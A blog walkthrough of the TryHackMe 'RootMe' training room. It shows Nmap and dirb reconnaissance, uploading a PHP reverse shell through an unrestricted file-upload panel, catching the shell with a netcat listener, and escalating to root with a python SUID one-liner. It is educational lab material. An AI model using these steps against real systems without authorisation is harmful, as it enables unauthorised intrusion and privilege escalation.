 ```yaml
---
title: "RootMe Walkthrough"
date: 2021-05-07T14:50:28
lastmod: 2021-05-12T17:51:51
draft: false
description: "A walkthrough to the RootMe Room on TryHackMe."

tags: ["hacking", "web", "walkthrough", "privesc"]
categories: ["TryHackMe Walkthroughs"]

---
```


One of the best ways to learn ethical hacking is to practice it. So below is a walkthrough of the [RootMe Room on THM](https://tryhackme.com/room/rrootme)

## Reconnaissance

### Nmap
As with most machines, I began with an Nmap scan - which answers the first few questions. 

I firstly scanned with sV to determine the software versions, however as the target wouldn't respond to host discovery, I had to disable it using the -Pn option.

```sh
$ nmap -sV -Pn 10.10.130.205
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-03 20:08 BST
Nmap scan report for 10.10.130.205
Host is up (0.068s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.90 seconds
```

### Directory Searching

Next we had to preform a directory brute force, so I started dirb.

```sh
$ dirb http://10.10.130.205

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon May  3 20:09:00 2021
URL_BASE: http://10.10.130.205/
WORDLIST_FILES: /data/data/com.termux/files/usr/share/dirb/wordlists/common.txt

-----------------
GENERATED WORDS: 4612

---- Scanning URL: http://10.10.130.205/ ----
                                                                                    ==> DIRECTORY: http://10.10.130.205/css/
+ http://10.10.130.205/index.php (CODE:200|SIZE:616)
==> DIRECTORY: http://10.10.130.205/js/
==> DIRECTORY: http://10.10.130.205/panel/
```

## Getting a Shell

From the recon above, we discover the page /panel/ and when we navigate to that page, we are presented with a file upload area.

Now I wondered if we could upload a shell and as we know the server runs Apache I grabbed the [Pentest Monkey Reverse PHP Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Firstly, we setup a netcat listener ready to receive the shell on the attacking machine.

```sh
$ nc -nvlp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

Next I edited line 49 of the shell to match my attacking machine's IP address and uploaded it to the website.

Once we uploaded the file, we are provided with a success message; it says Veja - which means go. So if you click on the link it will open the file, this will cause the page to freeze.

Now we return to the netcat listener and we have received a shell and can find the user flag.

## Privilege Escalation

Now we have found the user flag, we need to escalate our privileges. To do this, I used to find files with a SUID bit.

```sh
find / -perm /4000 2>/dev/null
```

From that, you need to look at the list and see if there are any unusual files. Unfortunately, this step needs experience for you to know what is unusual; therefore I advise that you enter the file names into [GTFObins](https://gtfobins.github.io/) and looking for SUID exploits.

After running down the list, you discover that python has a SUID vulnerability, so now you run it on the reverse shell.

Once the exploit is complete, I use the whoami command to check it worked

```sh
usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami
root
```

From here you need to find the root flag by outputting the file in the root users home directory.
